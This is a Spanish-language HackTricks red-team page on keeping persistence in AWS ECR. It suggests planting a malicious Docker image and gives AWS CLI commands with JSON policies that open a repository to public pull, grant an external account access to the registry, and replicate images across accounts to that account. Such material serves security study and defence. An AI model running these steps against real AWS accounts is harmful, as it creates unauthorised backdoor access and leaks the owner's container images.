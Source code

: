 # AWS - Persistencia en ECR

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## ECR

Para más información, consulta:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Imagen Docker Oculta con Código Malicioso

Un atacante podría **subir una imagen Docker que contenga código malicioso** a un repositorio de ECR y utilizarla para mantener la persistencia en la cuenta de AWS objetivo. Luego, el atacante podría desplegar la imagen maliciosa en varios servicios dentro de la cuenta, como Amazon ECS o EKS, de manera sigilosa.

### Política del Repositorio

Añade una política a un único repositorio otorgándote a ti mismo (o a todos) acceso a un repositorio:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
{% hint style="warning" %}
Tenga en cuenta que ECR requiere que los usuarios tengan **permiso** para realizar llamadas a la API **`ecr:GetAuthorizationToken`** a través de una política de IAM **antes de que puedan autenticarse** en un registro y empujar o jalar cualquier imagen de cualquier repositorio de Amazon ECR.
{% endhint %}

### Política de Registro y Replicación Cruzada de Cuentas

Es posible replicar automáticamente un registro en una cuenta externa configurando la replicación cruzada de cuentas, donde necesita **indicar la cuenta externa** donde desea replicar el registro.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Primero, necesita dar acceso a la cuenta externa sobre el registro con una **política de registro** como:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
Luego aplica la configuración de replicación:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
